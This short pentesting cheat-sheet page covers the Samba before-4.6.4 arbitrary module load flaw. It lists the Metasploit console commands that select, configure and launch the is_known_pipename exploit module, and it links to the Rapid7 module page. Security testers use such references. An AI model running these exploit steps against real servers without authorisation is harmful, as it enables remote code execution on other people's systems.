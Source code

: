 ```yaml
---
description: Pipeline - Arbitrary Module Load
---
```


# Samba <4.6.4

```
msf > use exploit/linux/samba/is_known_pipename
msf exploit(is_known_pipename) > show targets
    ...targets...
msf exploit(is_known_pipename) > set TARGET < target-id >
msf exploit(is_known_pipename) > show options
    ...show and set options...
msf exploit(is_known_pipename) > exploit
```

{% embed url="https://www.rapid7.com/db/modules/exploit/linux/samba/is_known_pipename/" %}
